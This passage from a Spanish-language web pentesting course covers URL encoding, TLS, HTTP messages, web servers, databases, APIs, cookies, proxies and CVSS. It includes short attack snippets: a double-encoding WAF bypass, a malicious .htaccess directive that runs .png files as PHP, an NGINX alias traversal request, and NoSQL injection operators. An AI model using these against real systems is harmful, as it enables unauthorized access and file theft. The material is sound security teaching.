| **Query String** | `?id=42&format=pdf` | Parámetros `clave=valor` separados por `&` e iniciados por `?`. | **Vector primordial de inyección**: Inyección SQL (SQLi), Cross-Site Scripting (XSS), Server-Side Request Forgery (SSRF), Local File Inclusion (LFI) e IDOR. |
| **Fragmento** | `#resumen` | Marcador de posición procesado en el DOM; **no se envía al servidor**. | Utilizado por aplicaciones SPA para enrutamiento interno (`/#/resumen`). Superficie exclusiva para vulnerabilidades de **DOM-based XSS**. |

> [!IMPORTANT]
> **Detalle crítico sobre el fragmento (`#`)**:
> Cuando el navegador solicita `https://app.example.com/admin/report#resumen`, la petición que se transmite por la red es:
> ```http
> GET /admin/report HTTP/1.1
> Host: app.example.com
> ```
> La sección `#resumen` es truncada por el propio navegador antes de emitir la trama de red. Por tanto, el fragmento jamás llega al servidor web ni al backend; su impacto de seguridad reside exclusivamente en el contexto del DOM del navegador cliente (*DOM-based XSS*).

### 5.1 Puertos estándar por omisión

Si una URL no especifica el puerto explícitamente:
- En `http://`, se asume el puerto **TCP 80**.
- En `https://`, se asume el puerto **TCP 443**.

### 5.2 Codificación de URLs (URL Encoding / Percent-Encoding)

El estándar RFC 3986 restringe el conjunto de caracteres permitidos en una URL a un subconjunto de caracteres US-ASCII:

- **Caracteres No Reservados**: Letras (`A-Z`, `a-z`), dígitos (`0-9`) y los símbolos especiales `-`, `_`, `.`, `~`. Pueden utilizarse directamente sin codificar.
- **Caracteres Reservados**: Caracteres que tienen significado semántico delimitador en la sintaxis de la URL: `:`, `/`, `?`, `#`, `[`, `]`, `@`, `!`, `$`, `&`, `'`, `(`, `)`, `*`, `+`, `,`, `;`, `=`.
- **Mecanismo de Percent-Encoding**: Si un dato contiene caracteres reservados fuera de su contexto sintáctico (ej. un espacio en una búsqueda o un `&` dentro del valor de un parámetro), debe representarse mediante un signo de porcentaje (`%`) seguido de su valor hexadecimal de dos dígitos en ASCII:
  - Espacio -> `%20` (o `+` en formularios)
  - Comilla simple (`'`) -> `%27`
  - Comilla doble (`"`) -> `%22`
  - Menor que (`<`) -> `%3C`
  - Mayor que (`>`) -> `%3E`
  - Barra inclinada (`/`) -> `%2F`
  - Ampersand (`&`) -> `%26`

#### Evasión mediante Doble Codificación (Double Encoding)

En entornos corporativos donde las peticiones atraviesan WAFs o proxies inversos antes de llegar al backend, las diferencias en los motores de decodificación dan lugar a vulnerabilidades:

1. El atacante codifica dos veces el carácter malicioso:
    - Comilla simple `'` -> `%27` -> `%2527` (ya que el caracter `%` se codifica como `%25`).
2. El WAF o filtro perimetral inspecciona la entrada, la decodifica una sola vez y observa la cadena inofensiva `%27`, permitiendo el paso.
3. El backend recibe `%27` y, si su framework realiza una segunda decodificación implícita, obtiene la comilla simple `'`, ejecutando exitosamente la inyección SQL (*Double URL Encoding Bypass*).

---

## 6. Antes de HTTP: Construir el canal de comunicación

Antes de transferir datos de la aplicación, el cliente y el servidor deben negociar las capas de transporte y seguridad:



### 6.1 Resolución DNS
El navegador consulta los registros de tipo **A** (IPv4) o **AAAA** (IPv6) configurados para el nombre de dominio. Si la resolución se adultera mediante envenenamiento de caché (*DNS Cache Poisoning*) o secuestro de DNS, el tráfico se redirige a un servidor malicioso sin conocimiento del usuario.

### 6.2 Establecimiento de sesión TCP (3-way Handshake)
HTTP opera sobre la capa de transporte TCP, garantizando entrega ordenada y sin pérdidas mediante el protocolo de tres vías: **SYN** -> **SYN-ACK** -> **ACK**.

### 6.3 Negociación TLS (Transport Layer Security)
Sobre la conexión TCP se negocia el túnel criptográfico:
1. **Client Hello**: El cliente envía versiones de TLS soportadas y lista de suites de cifrado (*Cipher Suites*).
2. **Server Hello & Certificado**: El servidor selecciona los algoritmos criptográficos más robustos compartidos y presenta su **Certificado digital X.509**.
3. **Validación**: El navegador valida que el certificado haya sido emitido por una Autoridad de Certificación (CA) confiable y que coincida con el dominio solicitado.
4. **Intercambio de claves**: Mediante algoritmos de curva elíptica (ECDHE), ambos extremos derivan claves de sesión simétricas efímeras (**Forward Secrecy**).

### 6.4 La premisa fundamental de TLS

```text
[ Navegador ]  ======= Túnel TLS (Cifrado en tránsito) =======>  [ Servidor Web / Backend ]
                (Espías de red ven solo bytes cifrados)           (El backend procesa datos en CLARO)
```

> [!IMPORTANT]
> **PREMISA FUNDAMENTAL**: TLS protege la **confidencialidad e integridad de los datos en tránsito** frente a atacantes pasivos en la red (redes Wi-Fi públicas, ISP intervenidos, Man-in-the-Middle). Sin embargo, una vez los paquetes alcanzan el servidor web, **el túnel TLS termina y los datos se descifran en memoria**. Por tanto, TLS **no neutraliza ninguna vulnerabilidad de aplicación** (como Inyección SQL, XSS o Command Injection).

---

## 7. Anatomía de los mensajes HTTP: Superficie de ataque

HTTP/1.x representa sus mensajes como texto y utiliza el paradigma de petición-respuesta. HTTP/2 emplea framing binario y HTTP/3 opera sobre QUIC, pero conservan la misma semántica de métodos, cabeceras, estados y cuerpos.

### 7.1 Anatomía de una Petición HTTP

Analicemos la petición del mapa didáctico:

```http
POST /admin/report?id=42&format=pdf HTTP/1.1
Host: app.example.com
Content-Type: application/json
Cookie: session=q8w9Ce0r1; role=guest

{"action":"export","owner":42}
```

1. **Línea de petición (Request Line)**:
   - **Método**: `POST`.
   - **Ruta y Query String**: `/admin/report?id=42&format=pdf`.
   - **Versión**: `HTTP/1.1` (o `HTTP/2`).
2. **Cabeceras de petición (Headers)**: Pares `Clave: Valor` que aportan contexto operativo:
   - `Host:`: Nombre de dominio del servidor de destino (obligatorio en HTTP/1.1).
   - `Content-Type:`: Formato en que viajan los datos en el cuerpo.
   - `Cookie:`: Identificadores de sesión y variables de estado del cliente.
   - `User-Agent:`: Identificador de software y navegador del cliente.
   - `Authorization:`: Credenciales de acceso (tokens Bearer, Basic Auth).
3. **Línea en blanco (CRLF - `\r\n`)**: Delimita estrictamente el final de las cabeceras y el inicio del cuerpo.
4. **Cuerpo del mensaje (Body)**: Carga útil con los datos enviados al backend.

### 7.2 Formatos comunes en el cuerpo (`Content-Type`)

1. **`application/x-www-form-urlencoded`**: Formato por defecto de formularios HTML. Los datos viajan como pares clave-valor codificados:
   ```http
   action=export&owner=42
   ```
2. **`multipart/form-data`**: Utilizado para la subida de archivos binarios y formularios complejos con delimitadores (*boundaries*):
   ```http
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
   ```
3. **`application/json`**: Cargas útiles estructuradas comunes en APIs REST y SPAs:
   ```http
   {"action": "export", "owner": 42}
   ```
4. **`application/xml`** o **`text/xml`**: Estructuras basadas en XML habituales en servicios SOAP y sistemas empresariales heredados.

### 7.3 Métodos HTTP y semántica REST

Los métodos HTTP indican al servidor la operación pretendida sobre el recurso:

| Método | Propósito estándar | ¿Seguro?* | ¿Idempotente?** | Relevancia en Pentesting |
|---|---|---|---|---|
| `GET` | Recuperar una representación del recurso. | **Sí** | **Sí** | Parámetros visibles en la URL y logs; análisis de inyecciones y fugas de datos. |
| `POST` | Enviar datos para crear un recurso o procesar una acción. | No | No | Formularios de login, transacciones, subida de archivos, ejecución de lógica. |
| `PUT` | Reemplazar completamente el recurso especificado. | No | **Sí** | Búsqueda de subida arbitraria de archivos en servidores con permisos desprotegidos. |
| `PATCH` | Aplicar modificaciones parciales al recurso. | No | No | Manipulación de campos restringidos (ej. alterar `role` o `saldo`). |
| `DELETE` | Eliminar el recurso identificado por la URL. | No | **Sí** | Pruebas de control de acceso roto (eliminar registros pertenecientes a terceros). |
| `OPTIONS` | Consultar los métodos y opciones permitidas. | **Sí** | **Sí** | Enumeración de verbos habilitados y auditoría de cabeceras de política CORS. |
| `HEAD` | Idéntico a `GET`, pero el servidor solo devuelve cabeceras sin cuerpo. | **Sí** | **Sí** | Comprobación rápida de existencia de recursos sin transferir la carga útil. |

> [!NOTE]
> - **Método seguro**: No modifica el estado de los recursos en el servidor.
> - **Método idempotente**: Ejecutar la misma petición varias veces consecutivas produce el mismo efecto final en el sistema que ejecutarla una sola vez.

---

## 8. Servidores Web y Servidores de Back-End

Dentro del entorno del servidor conviven dos subsistemas con responsabilidades distintas:

### 8.1 Servidores Web Perimetrales: Arquitectura y riesgos de configuración

El servidor web es el software que acepta conexiones de red directamente de los clientes y las despacha o reenvía.

#### Apache HTTP Server
- **Arquitectura de Concurrencia**: Emplea módulos de multiprocesamiento (*Multi-Processing Modules* o MPM):
  - `mpm_prefork`: Asigna un proceso independiente por cada conexión. Excelente aislamiento de fallos, pero alto consumo de memoria RAM bajo cargas concurrentes elevadas.
  - `mpm_worker` y `mpm_event`: Emplean arquitectura híbrida multihilo y manejo de eventos asíncronos para conexiones *keep-alive*.
- **Archivos de Configuración Descentralizada (`.htaccess`)**:
  - Permite a los administradores aplicar reglas de seguridad o reescritura (`mod_rewrite`) a nivel de carpeta sin reiniciar el servicio.
  - *Vector de ataque crítico*: Si una aplicación permite subir archivos arbitrarios a un directorio donde `AllowOverride` está habilitado, un atacante puede subir un archivo `.htaccess` malicioso para redefinir el tipo MIME de sus archivos (ej. forzar que archivos de imagen `.png` se ejecuten como código PHP):
    ```apache
    AddType application/x-httpd-php .png
    ```

#### NGINX
- **Arquitectura Basada en Eventos (*Event-Driven*)**: Utiliza un bucle de eventos asíncrono y no bloqueante apoyado en llamadas al sistema de alta eficiencia (`epoll` en Linux, `kqueue` en FreeBSD). Puede manejar decenas de miles de conexiones concurrentes simultáneas con un consumo mínimo de memoria.
- **Rol Primordial**: Servidor de archivos estáticos ultra-rápido y **Proxy Inverso / Balanceador de Carga** (`proxy_pass`).
- *Vulnerabilidad de Configuración Típica: Alias Traversal (Off-by-slash)*:
  Cuando una directiva `location` carece de barra final pero la directiva `alias` sí la incluye:
  ```nginx
  location /archivos {
      alias /var/www/estaticos/;
  }
  ```
  Si un auditor solicita `GET /archivos../config.php`, NGINX normaliza la ruta combinando `/var/www/estaticos/../config.php` = `/var/www/config.php`, permitiendo descargar archivos arbitrarios fuera del directorio previsto.

#### Microsoft IIS (Internet Information Services)
- Servidor web nativo de Windows Server, integrado profundamente con el kernel de Windows mediante el controlador `HTTP.sys`.
- **Configuración mediante `web.config`**: Archivo en formato XML que controla autenticación, enrutamiento y módulos de seguridad.
- **Integración con Active Directory**: Soporta autenticación integrada de Windows (NTLM y Kerberos).
  - *Riesgo en Pentesting*: Vulnerabilidad a ataques de retransmisión NTLM (*NTLM Relay*) si los endpoints no exigen firma SMB y protección extendida para autenticación (*Extended Protection for Authentication - EPA*).

### 8.2 Stacks y Frameworks de Backend

El backend procesa la lógica de negocio y se conecta a los almacenes de datos:

- **PHP**: Históricamente el lenguaje web más extendido. Ejecutado mediante PHP-FPM a través de FastCGI. Frameworks: Laravel, Symfony. Riesgos: Directivas peligrosas en `php.ini` (`allow_url_include`, `register_globals` en versiones antiguas), y funciones de ejecución de comandos (`system`, `exec`).
- **Python**: Frameworks de alto nivel como **Django** (incluye ORM parametrizado y mitigaciones anti-CSRF por defecto) y microframeworks como **Flask** o **FastAPI**. Riesgos: Vulnerabilidades de inyección en plantillas de servidor (*Server-Side Template Injection - SSTI* en Jinja2) si se concatenan entradas en plantillas sin compilar.
- **Node.js**: Entorno de ejecución JavaScript del lado servidor sobre motor V8 con arquitectura de bucle de eventos (*Event Loop* no bloqueante). Frameworks: Express.js, NestJS. Riesgos: *Prototype Pollution* en objetos JavaScript y bloqueo del bucle de eventos mediante expresiones regulares complejas (*ReDoS*).
- **Java**: Frameworks corporativos líderes como **Spring Boot**. Servidores de aplicaciones: Apache Tomcat, Eclipse Jetty, JBoss/WildFly. Riesgos: Deserialización insegura de objetos binarios de Java, inyecciones en Expression Language (SpEL) y vulnerabilidades en dependencias de registro (como la histórica vulnerabilidad Log4Shell en Apache Log4j).
- **C# / .NET**: Pila corporativa multiplataforma (**ASP.NET Core**). Riesgos: Deserialización insegura en bibliotecas JSON/XML (`BinaryFormatter`, `TypeNameHandling`) y malas configuraciones de directivas CORS.

### 8.3 Las 5 responsabilidades de seguridad del Backend

1. **Autentica identidad**: Valida credenciales, tokens criptográficos (JWT) o sesiones.
2. **Autoriza el recurso**: Verifica que el usuario tenga privilegios sobre el objeto solicitado (prevención de BOLA / IDOR).
3. **Valida formato y reglas**: Comprueba tipos de datos, longitudes y rangos permitidos. Jamás confía en precios o privilegios enviados desde el cliente.
4. **Procesa la transacción**: Ejecuta las operaciones en base de datos o llamadas auxiliares de forma atómica.
5. **Construye la respuesta**: Estructura el payload resultante y emite las cabeceras defensivas.

### 8.4 Aislamiento estricto de la Base de Datos y APIs externas

> [!CAUTION]
> **Aislamiento crítico**: **El navegador nunca consulta directamente la base de datos**.
> El backend media cada operación en nombre del usuario autenticado. Si el backend concatena entradas del usuario directamente dentro de consultas SQL sin parametrización, el atacante rompe esta mediación a través de una **Inyección SQL (SQLi)**.
>
> Asimismo, cuando el backend consume APIs externas (pasarelas de pago, servicios de correo o IAM), si construye peticiones basadas en URLs proporcionadas por el usuario, surge la vulnerabilidad de **Server-Side Request Forgery (SSRF)**.

---

## 9. Capa de persistencia: Bases de Datos Relacionales (SQL) vs NoSQL

Las bases de datos gestionan el almacenamiento persistente de los datos de la aplicación.

### 9.1 Bases de datos relacionales (RDBMS)

- **Motores líderes**: MySQL / MariaDB, PostgreSQL, Microsoft SQL Server (MSSQL), Oracle Database, SQLite.
- **Principios técnicos**:
  - Estructura tabular rígida basada en tablas compuestas por columnas con tipos de datos predefinidos y filas que representan registros individuales.
  - Relaciones entre tablas mediante claves primarias (*Primary Keys*) y foráneas (*Foreign Keys*).
  - Cumplimiento de propiedades **ACID** (Atomicidad, Consistencia, Aislamiento, Durabilidad) para garantizar la integridad absoluta de transacciones.
  - Lenguaje de consulta universal: **SQL (Structured Query Language)**.
- **Riesgo crítico de seguridad**: **Inyección SQL (SQLi)** cuando el backend construye consultas concatenando cadenas de entrada del usuario en lugar de utilizar sentencias preparadas (*Prepared Statements*) y consultas parametrizadas.

### 9.2 Bases de datos no relacionales (NoSQL)

Diseñadas para soportar grandes volúmenes de datos distribuidos, esquemas dinámicos sin estructura fija (*schema-less*) y latencias mínimas.

- **Familias de bases de datos NoSQL**:
  1. **Documentales (MongoDB, CouchDB)**: Almacenan registros como documentos estructurados en formato **JSON** o **BSON**.
     - *Vector de ataque*: **NoSQL Injection (NoSQLi)** mediante manipulación de operadores lógicos (ej. inyectar objetos JSON como `{"$ne": ""}` o `{"$gt": ""}` en campos de autenticación para que la comparación resulte siempre verdadera y eluda el login).
  2. **Clave-Valor (Key-Value) (Redis, Memcached)**: Diccionarios en memoria de ultra-alta velocidad. Utilizados para caché, almacén de sesiones y colas.
     - *Riesgo*: Exposición sin contraseña en interfaces de red públicas (ej. puerto TCP 6379 de Redis), permitiendo a un atacante leer sesiones, ejecutar comandos o escribir claves SSH autorizadas en el sistema operativo.
  3. **Columnar / Familias de columnas anchas (Apache Cassandra, ScyllaDB)**: Optimizadas para analítica masiva y consultas agregadas sobre millones de filas.
  4. **De Grafos (Neo4j)**: Modelan relaciones complejas (redes de contactos, detección de fraude). Consultadas mediante lenguajes como Cypher. Vector de ataque: *Cypher Injection*.

### 9.3 Papel de los ORM (Object-Relational Mapping) y ODM (Object-Document Mapping)

Los ORM (como Hibernate en Java, Entity Framework en C#, Sequelize/Prisma en Node.js, Django ORM en Python) y ODM (como Mongoose en MongoDB) permiten a los desarrolladores interactuar con la base de datos utilizando objetos del lenguaje de programación en lugar de escribir consultas SQL/NoSQL crudas.

- **Ventaja de seguridad**: Los métodos nativos de los ORMs parametrizan automáticamente los valores, mitigando la gran mayoría de inyecciones SQL convencionales.
- **El mito de la seguridad absoluta con ORMs**:
  - Los ORMs ofrecen métodos para ejecutar consultas SQL directas (*Raw Queries*, ej. `db.query("SELECT * FROM users WHERE id = " + id)`). Si un desarrollador recurre a consultas crudas y concatena entradas, la vulnerabilidad de SQLi persiste de forma íntegra.
  - Además, malas prácticas de mapeo de objetos en el backend conducen a vulnerabilidades de **Asignación Masiva (*Mass Assignment*)**, donde un usuario puede inyectar campos no autorizados (ej. `"is_admin": true`) en el cuerpo JSON de actualización de perfil si el modelo del ORM guarda directamente el objeto recibido sin filtrado estricto de propiedades permitidas (*whitelisting*).

---

## 10. Arquitectura de APIs y comunicación de servicios

Una **API (Application Programming Interface)** es un conjunto formal de definiciones y protocolos que permite a dos componentes de software comunicarse e intercambiar datos de manera estandarizada.

### 10.1 Concepto de API y diseño de endpoints

En aplicaciones web modernas, el front-end y las aplicaciones móviles consumen APIs expuestas por el backend a través de **endpoints** (rutas unívocas de acceso). Los datos se transmiten mediante:
- Parámetros en la ruta (*Path variables*): `/api/v1/usuarios/42`
- Parámetros de consulta (*Query parameters*): `/api/v1/usuarios?rol=admin`
- Cabeceras de autenticación: `Authorization: Bearer <token_jwt>`
- Cuerpos de mensaje estructurados: Cargas útiles JSON o XML.

### 10.2 SOAP (Simple Object Access Protocol)

SOAP es un protocolo formal y estricto promovido por el consorcio W3C para el intercambio de información estructurada en entornos corporativos.

- **Características técnicas**:
  - Basado **exclusivamente en XML**.
  - Contrato formal estricto: Utiliza un archivo **WSDL (Web Services Description Language)** que define exhaustivamente todas las funciones, tipos de datos y parámetros aceptados.
  - Estructura del mensaje:
    - `<soap:Envelope>`: Elemento raíz obligatorio que identifica el documento XML como mensaje SOAP.
    - `<soap:Header>`: Elemento opcional con metadatos de autenticación o enrutamiento.
    - `<soap:Body>`: Contiene los datos reales de la petición o respuesta.
  - Estándar de seguridad: **WS-Security** (permite firmar y cifrar partes individuales del mensaje XML independientemente del protocolo de transporte).
- **Vectores de ataque en servicios SOAP**:
  - **Inyección de Entidades Externas XML (XXE - XML External Entity)**: Si el parser XML del servidor tiene habilitado el procesamiento de DTDs y entidades externas, un atacante puede leer archivos confidenciales del sistema de archivos local (`/etc/passwd`, `C:\Windows\win.ini`), forzar peticiones internas (SSRF) o causar denegación de servicio (*Billion Laughs Attack*).
  - **XPath Injection**: Manipulación de consultas que recorren nodos XML para eludir mecanismos de autenticación.

### 10.3 REST (Representational State Transfer)

REST no es un protocolo rígido, sino un estilo arquitectónico que aprovecha directamente los mecanismos y la semántica nativa del protocolo HTTP.

- **Principios cardinales de REST**:
  1. **Sin Estado (*Stateless*)**: Cada petición HTTP debe contener toda la información necesaria para que el servidor la procese. El servidor no mantiene contexto de sesión entre peticiones; la autenticación suele resolverse mediante tokens criptográficos (*Bearer tokens* / JWT).
  2. **Orientado a Recursos**: Cada entidad del sistema (un usuario, un pedido, un producto) se modela como un recurso identificado por una URI limpia y lógica (ej. `/api/v1/pedidos/1024`).
  3. **Verbos HTTP Semánticos**: Emplea `GET` para recuperar, `POST` para crear, `PUT`/`PATCH` para actualizar y `DELETE` para eliminar recursos.
  4. **Representación Estándar**: Predominantemente utiliza **JSON** por su ligereza, interoperabilidad y facilidad de parseo en navegadores y lenguajes modernos.
- **Buenas prácticas de seguridad en APIs REST**:
  - Uso obligatorio de HTTPS en todos los endpoints.
  - Validación de esquemas estrictos de entrada (ej. JSON Schema) y descarte de campos no reconocidos.
  - Implementación de **Rate Limiting** para mitigar ataques de fuerza bruta y denegación de servicio.
  - Cabeceras de seguridad estrictas y validación de `Content-Type: application/json`.

### 10.4 Comparativa rápida: GraphQL y gRPC

- **GraphQL**: Lenguaje de consulta creado por Meta. Opera habitualmente sobre un único endpoint (`/graphql`) recibiendo peticiones POST con consultas donde el cliente especifica exactamente qué campos requiere.
  - *Riesgos*: Introspección habilitada en producción (fuga del esquema completo de la base de datos y endpoints), consultas anidadas recursivas no limitadas (denegación de servicio por agotamiento de CPU) e inyecciones de consulta.
- **gRPC**: Framework de llamadas a procedimiento remoto de alto rendimiento desarrollado por Google. Utiliza **HTTP/2** como transporte y **Protocol Buffers (Protobuf)** para la serialización binaria en lugar de texto plano JSON, siendo habitual en la comunicación interna entre microservicios.

---

## 11. Anatomía de una Respuesta HTTP

Cuando el servidor procesa la petición, devuelve un mensaje de respuesta:

```http
HTTP/1.1 200 OK
Content-Type: application/json
Set-Cookie: session=XYZ123; Secure; HttpOnly; SameSite=Strict

{"id":42,"report":"ready"}
```

Estructura:
1. **Línea de estado (Status Line)**: Versión del protocolo (`HTTP/1.1`), código numérico (`200`) y frase descriptiva (`OK`).
2. **Cabeceras de respuesta (Response Headers)**: Tipo de contenido (`Content-Type`), directivas de cookies (`Set-Cookie`) y opciones de servidor.
3. **Línea en blanco (CRLF)**.
4. **Cuerpo de la respuesta (Body)**: Los datos generados (JSON, HTML, etc.).

### Códigos de estado HTTP fundamentales

| Código | Significado formal | Contexto para el Pentester |
|---|---|---|
| **`200 OK`** | Petición procesada satisfactoriamente. | Acceso concedido o resultado esperado. En bypasses confirma éxito. |
| **`201 Created`** | Recurso creado exitosamente. | Típico en endpoints de registro o APIs REST tras un `POST`. |
| **`301 Moved Permanently`** | Redirección definitiva (`Location:`). | Utilizado comúnmente para forzar la transición de HTTP a HTTPS. |
| **`302 Found / 307 Temporary`** | Redirección temporal. | Frecuente tras un inicio de sesión exitoso hacia el panel de usuario. |
| **`400 Bad Request`** | Sintaxis corrupta en la petición. | Parámetros no procesables o payloads JSON inválidos. |
| **`401 Unauthorized`** | Falta autenticación. | No se aportaron credenciales válidas; común en HTTP Basic o Bearer tokens. |
| **`403 Forbidden`** | Acceso denegado. | El servidor identifica al usuario pero rehúsa autorizarlo sobre el recurso. |
| **`404 Not Found`** | Recurso inexistente. | Guía para técnicas de fuzzing y enumeración de endpoints ocultos. |
| **`500 Internal Server Error`** | Excepción no controlada en el backend. | **Señal crítica de auditoría**: Provocado con frecuencia por inyecciones (SQLi) que rompen la sintaxis interna del servidor. |

---

## 12. Formato, codificación y cifrado: Distinciones críticas

Es habitual encontrar confusión entre estos tres conceptos. En pentesting, comprender con precisión su diferencia técnica es indispensable:

| Concepto | Definición técnica | ¿Garantiza confidencialidad? | ¿Requiere clave para revertirse? | Ejemplo práctico |
|---|---|---|---|---|
| **Formato** | Sintaxis para estructurar y organizar campos de datos para su intercambio entre sistemas. | No | No (es solo estructura) | `clave=valor` o `{"user": "ana"}` |
| **Codificación (Encoding)** | Representación alternativa de bytes o texto para permitir su transmisión por canales con restricciones de caracteres. | **No** | **No** (el algoritmo es público y reversible sin secreto) | Espacio en URL $\to$ `%20`<br>`admin` en Base64 $\to$ `YWRtaW4=` |
| **Cifrado (Encryption)** | Transformación matemática de un texto en claro a criptograma mediante un algoritmo y una clave criptográfica. | **Sí** | **Sí** (solo reversible si se posee la clave de descifrado) | Túnel HTTPS con TLS 1.3 (AES-GCM / ChaCha20) |

> [!IMPORTANT]
> **Regla de oro**: Codificar un dato en Base64 o en URL-encode **no oculta un secreto**. Cualquier intermediario o el propio servidor decodificará el valor instantáneamente. El cifrado TLS protege el canal en tránsito entre el cliente y el servidor, pero una vez la petición arriba al backend, el servidor procesa los datos en claro.

---

## 13. Gestión de sesiones y atributos de seguridad de cookies

Dado que el protocolo HTTP es intrínsecamente sin estado (*stateless*), el servidor no recuerda por sí mismo si una petición proviene del mismo usuario que inició sesión previamente. Para mantener la identidad en el tiempo, se emplean **cookies de sesión**.



### Atributos de seguridad de una Cookie

Para evitar el robo o manipulación de la identidad de los usuarios, el servidor debe configurar cabeceras defensivas `Set-Cookie` con directivas estrictas:

| Atributo | Propósito de Seguridad | Amenaza que Mitiga |
|---|---|---|
| **`Secure`** | Instruye al navegador para transmitir la cookie **únicamente a través de canales cifrados HTTPS**. | Evita la interceptación pasiva del token de sesión en redes Wi-Fi o mediante ataques de *SSL Stripping*. |
| **`HttpOnly`** | Impide que el código JavaScript del cliente acceda a la cookie a través del objeto `document.cookie`. | **Mitiga el robo directo de sesión mediante Cross-Site Scripting (XSS)**. El script inyectado no puede exfiltrar el token. |
| **`SameSite=Strict`** | La cookie no se enviará en ninguna petición originada desde un sitio web externo bajo ninguna circunstancia. | Máxima protección contra **Cross-Site Request Forgery (CSRF)**. |
| **`SameSite=Lax`** | Permite enviar la cookie en navegaciones de nivel superior que empleen métodos seguros (`GET`), pero la bloquea en peticiones `POST` cruzadas. | Balance entre usabilidad y mitigación de CSRF (comportamiento estándar en navegadores modernos). |
| **`SameSite=None`** | La cookie se envía en todas las peticiones cruzadas (*Third-Party Cookies*). **Requiere obligatoriamente el atributo `Secure`**. | Requerido para widgets o servicios incrustados en iframes entre distintos dominios. |
| **`Path`** y **`Domain`** | Restringe a qué rutas o subdominios específicos se entregará la cookie. | Limita el alcance de exposición si un subdominio secundario se ve comprometido. |

---

## 14. Proxies web e interceptación de tráfico

Bajo condiciones normales, HTTPS establece un canal cifrado de extremo a extremo que ningún intermediario puede leer ni manipular sin provocar una alerta de certificado no confiable en el navegador.

Para que un proxy de interceptación (como Burp Suite o ZAP) pueda descifrar e inspeccionar el tráfico HTTPS en un laboratorio de auditoría:

```text
CONEXIÓN NORMAL:
Navegador <=================== Un único canal TLS ===================> Servidor Web

CONEXIÓN INTERCEPTADA EN LABORATORIO:
Navegador <===== TLS 1 (Cert. CA Burp) =====> Burp Suite <===== TLS 2 (Cert. Real) =====> Servidor Web
```

1. Se genera un certificado de Autoridad de Certificación raíz local (**CA local**) en el proxy.
2. Esta CA local se instala e importa como autoridad de confianza en el almacén de certificados del navegador de pruebas.
3. Ante cada petición HTTPS:
   - El proxy negocia un túnel TLS legítimo con el servidor real (Canal TLS 2).
   - El proxy emite dinámicamente un certificado firmado por su propia CA local para el dominio solicitado y negocia un túnel TLS con el navegador (Canal TLS 1).
   - En el punto central (la suite de pruebas), el mensaje HTTP existe en texto plano, permitiendo al pentester inspeccionar cabeceras, modificar parámetros y alterar la lógica antes de retransmitirla.

> [!CAUTION]
> **Norma de seguridad operativa**: La CA local del proxy debe instalarse **únicamente en perfiles de navegador dedicados exclusivamente a pruebas de seguridad**. Jamás instales una CA de pruebas en tu navegador personal o de uso diario, ya que facultaría a cualquier proceso con acceso a esa clave privada para interceptar todo tu tráfico cifrado.

---

## 15. Vulnerabilidades públicas, CVE y CVSS (Common Vulnerability Scoring System)

El descubrimiento y gestión de vulnerabilidades se fundamenta en estándares y bases de datos públicas que permiten catalogar fallos y cuantificar su severidad objetivamente.

### 15.1 Ciclo de divulgación de vulnerabilidades y fuentes de inteligencia

Cuando se descubre un fallo de seguridad en una aplicación web, un servidor o una biblioteca de código abierto, se reporta al fabricante o a un coordinador de vulnerabilidades:

1. **CVE (Common Vulnerabilities and Exposures)**: Diccionario de identificación estandarizado internacional administrado por la corporación MITRE y autorizado por autoridades **CNA (CVE Numbering Authorities)**. Cada fallo recibe un identificador unívoco con el formato `CVE-AAAA-NNNNN` (ej. `CVE-2021-44228`).
2. **NVD (National Vulnerability Database)**: Base de datos del gobierno de EE.UU. (NIST) que toma cada registro CVE, lo enriquece con análisis de impacto, listas de productos de software afectados (formato CPE) y calcula su puntuación en el estándar CVSS.
3. **Bases de datos de explotación y vulnerabilidades**:
   - **Exploit-DB**: Repositorio de código funcional de exploits públicos verificado y mantenido por OffSec.
   - **Rapid7 Vulnerability Database**: Base de datos de vulnerabilidades asociadas a módulos de explotación de Metasploit Framework.
   - **CISA KEV (Known Exploited Vulnerabilities Catalog)**: Catálogo de la agencia CISA que documenta vulnerabilidades que han sido confirmadas como explotadas activamente en el mundo real por cibercriminales o actores estado-nación.

### 15.2 Sistema de Puntuación CVSS v3.1

El **Common Vulnerability Scoring System (CVSS)** es un estándar abierto para evaluar cuantitativamente la severidad técnica de una vulnerabilidad en una escala de **0.0 a 10.0**. CVSS v4.0 existe como versión más reciente; este curso mantiene v3.1 porque sus ejemplos y fuentes introductorias usan ese formato. Sus puntuaciones no deben compararse mecánicamente entre versiones.

El cálculo se articula a través de tres grupos de métricas:

```text
                  +----------------------------------------------+
                  |         MÉTRICAS BASE (Base Score)           |
                  |     (Cualidades intrínsecas constantes)      |
                  +----------------------------------------------+
                     /                                        \
                    /                                          \
                   v                                            v
     [ MÉT. DE EXPLOTABILIDAD ]                      [ MÉTRICAS DE IMPACTO ]
     - Vector de Ataque (AV)                         - Alcance / Scope (S)
     - Complejidad de Ataque (AC)                    - Confidencialidad (C)
     - Privilegios Requeridos (PR)                   - Integridad (I)
     - Interacción del Usuario (UI)                  - Disponibilidad (A)
```

#### Métricas de la Puntuación Base (Base Metrics)
- **Vector de Ataque (Attack Vector - AV)**: Define el contexto en el que es posible explotar la vulnerabilidad:
  - *Network (N)*: Explotable remotamente a través de Internet (máxima severidad).
  - *Adjacent (A)*: Requiere acceso a la misma red local (subred física, Wi-Fi local).
  - *Local (L)*: Requiere acceso al sistema operativo (terminal local o ejecución de archivo local).
  - *Physical (P)*: Requiere interacción física con el dispositivo.
- **Complejidad del Ataque (Attack Complexity - AC)**: Grado de dificultad técnica o condiciones ambientales necesarias:
  - *Low (L)*: El atacante puede repetir el exploit consistentemente sin condiciones especiales.
  - *High (H)*: Requiere condiciones de carrera, elusión de protecciones complejas o recopilación previa de información avanzada.
- **Privilegios Requeridos (Privileges Required - PR)**: Nivel de acceso que el atacante debe poseer antes de lanzar el ataque:
  - *None (N)*: Sin autenticación previa.
  - *Low (L)*: Cuenta básica de usuario.
  - *High (H)*: Privilegios administrativos o de root.
- **Interacción del Usuario (User Interaction - UI)**:
  - *None (N)*: No requiere interacción humana (ej. ataque directo contra el servidor).
  - *Required (R)*: Requiere que una víctima haga clic en un enlace o abra un documento (ej. XSS reflejado, phishing).
- **Alcance (Scope - S)**:
  - *Unchanged (U)*: El impacto se limita exclusivamente a la aplicación vulnerable.
  - *Changed (C)*: La vulnerabilidad permite comprometer recursos fuera de la autoridad de seguridad del componente afectado (ej. una vulnerabilidad en una máquina virtual que permite comprometer el hipervisor del host).
- **Impacto (Confidencialidad, Integridad, Disponibilidad - CIA)**:
  - Cada factor se evalúa como *None (N)*, *Low (L)* o *High (H)*.

